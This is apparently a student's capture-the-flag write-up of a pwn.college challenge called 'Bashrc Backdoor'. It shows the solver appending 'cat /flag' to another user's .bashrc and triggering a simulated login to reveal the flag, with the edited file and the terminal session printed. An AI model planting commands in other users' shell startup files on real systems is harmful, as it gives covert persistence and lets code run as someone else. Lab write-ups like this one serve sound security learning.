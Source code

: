 
# 1. Bashrc Backdoor

This challenge prompted me to add a command to another user's `.bashrc` file to get a flag.

## My Solve

**Flag:** `pwn.college{QujC6x6OewJiXgTN2R_WTy2E6aR.0VMzEzNxwCM2EDNzEzW}`

I had write access to the `.bashrc` file for the `zardus` user. I edited the file and added `cat /flag` to the end. Then, I ran the `/challenge/victim` script, which simulated `zardus` logging in. Their shell automatically executed the command I added, which printed the flag.

`/home/zardus/.bashrc`:
```
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
cat /flag
```

```
hacker@shenanigans~bashrc-backdoor:~$ nano /home/zardus/.bashrc
hacker@shenanigans~bashrc-backdoor:~$ /challenge/victim
Username: zardus
Password: ***********
pwn.college{QujC6x6OewJiXgTN2R_WTy2E6aR.0VMzEzNxwCM2EDNzEzW}
zardus@shenanigans~bashrc-backdoor:~$ exit
logout
```

## What I Learned

I learnt that the `.bashrc` file is executed every time a new interactive bash shell starts, and modifying it can be a way to run commands as another user.

## References

The problem statement provided was the reference used.

```
When your shell starts up, it looks for .bashrc file in your home directory and executes it as a startup script.
...
In this challenge, we'll pretend that you've broken into a victim user's machine!
That user is named zardus, with a home directory of /home/zardus.
You, as the hacker user, have write access to his .bashrc, and zardus has read-access to /flag.
The victim is simulated by the script /challenge/victim, and you can launch this script at any time to observe the victim logging into the computer.
Can you get the flag?
```
